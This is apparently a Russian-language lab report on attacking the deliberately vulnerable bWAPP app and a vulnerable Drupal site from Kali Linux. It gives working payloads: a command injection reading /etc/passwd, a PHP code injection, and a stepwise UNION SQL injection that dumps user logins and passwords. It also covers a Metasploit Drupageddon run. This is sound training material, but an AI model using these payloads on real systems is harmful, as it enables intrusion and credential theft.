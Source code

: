 1. Развернуть уязвимое веб-приложение bWAPP

![bWAPP](images/FdEXqULNgq.png)

*Скриншот показывает интерфейс веб-приложения bWAPP после успешного развертывания.*

![bWAPP](images/chrome_Q8zpKmjg5O.png)

*Скриншот демонстрирует главную страницу bWAPP с доступными заданиями.*

2. Развернуть виртуальную машину с Kali Linux

![Kali Linux](images/tuJZfeTZU0.png)

*Скриншот показывает рабочий стол Kali Linux после успешного запуска виртуальной машины.*

3. Провести несколько простых кибератак: выполнить задания (уровень low) на OS Command Injection

	3.1 функционал приложения

	![OS Command Injection](images/chrome_0TJoXZdFSl.png)

	*Скриншот демонстрирует форму ввода для выполнения команды в уязвимом приложении.*

	3.2 эксплуатация уязвимости

	`nsa.gov&&cat /etc/passwd`

	![OS Command Injection](images/c1ADXYrIBU.png)

	*Скриншот показывает ввод команды, выводящий содержимое файла /etc/passwd.*

	![OS Command Injection](images/chrome_XMgv8cXpWJ.png)

	*Скриншот демонстрирует успешное выполнение команды, выводящий содержимое файла /etc/passwd*

4. PHP Code Injection

	4.1 функционал приложения

	`http://vuln-4.edtechlab.local/phpi.php?message=felixsta`

	![PHP Code Injection](images/chrome_zuijh0ye2S.png)

	*Скриншот показывает страницу с параметром message и значением `felixsta`, переданным в URL.*

	4.2 эксплуатация уязвимости

	`http://vuln-4.edtechlab.local/phpi.php?message=phpinfo()`

	![PHP Code Injection](images/chrome_WRXY25JBMx.png)

	*Скриншот демонстрирует результат выполнения команды phpinfo(), выводящий информацию о PHP.*

5. SQL-Injection (GET/Search)

	5.1 функционал приложения

	`term`

	![SQL Injection](images/chrome_AblVvH7zy5.png)

	*Скриншот показывает форму поиска, где можно ввести поисковый запрос. И результат выполнения запроса по слову `term`*

	5.2 обнаружение уязвимости

	`'`

	![SQL Injection](images/chrome_wRPil3EGHA.png)

	*Скриншот демонстрирует ошибку SQL, возникающую при вводе одиночной кавычки.*

	5.3 определение структуры запроса для вывода необходимой информации

	`1' UNION SELECT null,null,null,null,null-- `

	![SQL Injection](images/chrome_NzaBaarM0C.png)

	*Скриншот показывает результат выполнения UNION запроса с пятью null значениями.*

	`1' UNION SELECT null,null,null,null,null,null,null-- `

	![SQL Injection](images/chrome_bhyiPkk6ln.png)

	*Скриншот демонстрирует успешное выполнение UNION запроса с семью null значениями.*

	5.4 поиск таблицы с данными пользователя

	`1' UNION SELECT 1,table_name,3,4,5,6,7 FROM information_schema.tables -- `

	![SQL Injection](images/chrome_MDxLhtrCss.png)

	*Скриншот показывает результат запроса, выводящий имена таблиц из базы данных.*

	5.5 определение наименования столбцов таблицы имени пользователя и пароля

	`1' UNION SELECT 1,column_name,3,4,5,6,7 FROM information_schema.columns WHERE table_name = 'users' -- `

	![SQL Injection](images/chrome_v9jpkDqqFf.png)

	*Скриншот демонстрирует результат запроса, выводящий имена столбцов таблицы users.*

	5.6 вывод необходимой информации

	`1' UNION SELECT 1,login,admin,secret,password,6,7 FROM users -- `

	![SQL Injection](images/chrome_GIZ2jvuh9r.png)

	*Скриншот показывает результат запроса, выводящий логины и пароли пользователей.*

6. Drupal SQL-Injection (Drupageddon)

	6.1 функционал приложения

	![Drupal SQL Injection](images/chrome_ullRNEoNe6.png)

	*Скриншот демонстрирует интерфейс уязвимого Drupal сайта.*

	6.2 эксплуатация уязвимости

	![Drupal SQL Injection](images/Termius_MaGQAKuMdE.png)

	*Скриншот показывает поиск и настройку exploit для эксплуатации уязвимости через Metasploit.*

	![Drupal SQL Injection](images/Termius_LfWj8vZpyD.png)

	*Скриншот демонстрирует успешное выполнение exploit и получение доступа.*

	![Drupal SQL Injection](images/Termius_Ko5KSedVab.png)

	*Скриншот показывает дальнейшие шаги по эксплуатации уязвимости.*

	![Drupal SQL Injection](images/Termius_Asz4bl6Uy4.png)

	*Скриншот демонстрирует выполнение дополнительных команд для получения данных.*

	![Drupal SQL Injection](images/Termius_VNxWMdB090.png)

	*Скриншот показывает финальный результат эксплуатации уязвимости.*